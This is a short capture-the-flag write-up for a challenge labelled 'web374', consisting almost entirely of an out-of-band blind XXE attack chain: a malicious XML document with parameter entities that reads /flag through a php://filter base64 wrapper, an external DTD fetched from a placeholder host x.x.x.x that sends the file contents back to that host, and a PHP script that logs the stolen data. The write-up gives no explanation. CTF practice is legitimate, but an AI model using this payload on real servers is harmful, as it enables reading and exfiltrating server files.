



# web374



```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
        <!ELEMENT root ANY >
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
        <!ENTITY % dtd SYSTEM "http://x.x.x.x/test.dtd">
        %dtd;
        %send;
        ]>
<root></root>

//test.dtd:
<!ENTITY % all
    "<!ENTITY &#x25; send SYSTEM 'http://x.x.x.x/getxxe.php?file=%file;'>"
>
%all;

//getxxe.php:
<?php
$file=$_GET['file'];
$set=fopen("xxe.txt","w+");
fwrite($set,$file);
fclose($set);
```
